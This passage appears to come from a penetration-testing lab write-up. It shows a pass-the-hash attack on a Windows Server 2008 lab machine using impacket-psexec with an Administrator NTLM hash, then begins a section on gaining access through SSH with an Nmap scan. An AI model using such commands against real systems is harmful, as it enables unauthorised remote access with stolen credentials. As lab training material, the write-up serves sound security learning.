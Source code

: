 ![Impacket-suite](Impacket-suite.png)

I will be performing a PTH attack with the `impacket-psexec` Python module on the Win2k8 machine

```bash
impacket-psexec Administrator@172.30.1.21 -hashes aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
```

![impacket-psexec](impacket-psexec.png)

## 6. Gaining Access by Exploiting SSH
SSH is a network protocol which allows administrators to log into a machine and perform remote code execution.

1. Nmap scan for common SSH port 22:

![Nmap-SSH](Nmap-SSH.png)